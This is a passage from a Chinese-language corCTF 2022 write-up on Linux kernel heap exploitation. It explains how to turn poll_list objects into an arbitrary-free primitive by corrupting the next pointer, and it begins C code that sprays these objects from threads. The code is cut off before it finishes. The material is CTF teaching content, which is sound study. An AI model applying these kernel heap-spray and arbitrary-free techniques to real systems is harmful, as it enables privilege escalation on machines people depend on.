 ### 3-2. `poll_list` 构造任意释放

**示例**：假设我们调用 `poll()` 传入 `510+1` 个文件描述符，内核就会分配1个 kmalloc-4k 和1个 kmalloc-32，以单链表形式存储。

![2-poll_list](/images/posts/corCTF-2022/2-poll_list.png)

**任意释放**：poll_list 以单链表存储，超时后释放时，会遍历单链表释放每一个 poll_list。如果通过 UAF/OOB 篡改 `poll_list->next` 就能构造任意释放。

**问题**：目标对象的前8字节必须为NULL，否则while循环会一直遍历并释放下去。这个条件很容易绕过，可以利用 misaligned 或者只释放前8字节为NULL的对象。

以下代码可以分配 `poll_list` 对象，注意需要利用子线程来喷射该对象，因为 `poll()` 调用会阻塞，直到触发特定event或者超时。

```c
#define N_STACK_PPS 30
#define POLLFD_PER_PAGE 510
#define POLL_LIST_SIZE 16

#define NFDS(size) (((size - POLL_LIST_SIZE) / sizeof(struct pollfd)) + N_STACK_PPS);

pthread_t poll_tid[0x1000];
size_t poll_threads;
pthread_mutex_t mutex = PTHREAD_MUTEX_INITIALIZER;

struct t_args
{
    int id;
    int nfds;
    int timeout;
};

void *alloc_poll_list(void *args)
{
    struct pollfd *pfds;
    int nfds, timeout, id;

    id    = ((struct t_args *)args)->id;
    nfds  = ((struct t_args *)args)->nfds;
    timeout = ((struct t_args *)args)->timeout;

```